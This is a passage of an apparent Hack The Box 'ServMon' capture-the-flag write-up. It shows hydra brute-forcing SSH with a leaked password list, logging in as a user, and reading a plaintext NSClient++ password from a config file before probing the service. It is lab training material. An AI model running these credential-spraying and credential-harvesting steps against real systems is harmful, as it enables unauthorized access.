 ## SSH

We now have a list of passwords and 2 possible users, Nadine and Nathan.

```bash
luc@kali:~/HTB/ServMon$ printf 'Nadine\nNathan' > users.txt
luc@kali:~/HTB/ServMon$ printf '1nsp3ctTh3Way2Mars!\nTh3r34r3To0M4nyTrait0r5!\nB3WithM30r4ga1n5tMe\nL1k3B1gBut7s@W0rk\n0nly7h3y0unGWi11F0l10w\nIfH3s4b0Utg0t0H1sH0me\nGr4etN3w5w17hMySk1Pa5$' > passwords.txt
luc@kali:~/HTB/ServMon$ hydra -L users.txt -P passwords.txt ssh://10.10.10.184
...
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
...
luc@kali:~/HTB/ServMon$ ssh nadine@10.10.10.184
nadine@10.10.10.184's password: L1k3B1gBut7s@W0rk
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>cd Desktop

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
4850b7dd************************
```

## Privilege escalation

The `Notes to do.txt` file mentioned `2) Lock down the NSClient Access - Complete`.

```bash
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
...
password = ew2x6SsGTxjRwXOT
...
```

We can find the password in a config file, but we can only use this via localhost.

```bash
nadine@SERVMON C:\Program Files\NSClient++>netstat -ano
...
  TCP    0.0.0.0:8443           0.0.0.0:0              LISTENING       2652
...
nadine@SERVMON C:\Program Files\NSClient++>tasklist /fi "pid eq 2652"
ERROR: Access denied
nadine@SERVMON C:\Program Files\NSClient++>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Program Files\NSClient++> Get-Process -id 2652

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    311      23     5548      18392              2652   0 nscp
```
